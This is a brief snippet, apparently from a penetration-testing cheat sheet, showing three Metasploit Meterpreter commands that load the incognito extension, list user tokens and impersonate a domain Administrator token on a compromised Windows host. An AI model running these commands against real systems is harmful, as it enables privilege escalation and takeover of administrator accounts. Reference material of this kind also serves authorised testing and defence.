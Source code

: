 # Metasploit - incognito

```cmd
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token SNEAKS.IN\\Administrator
```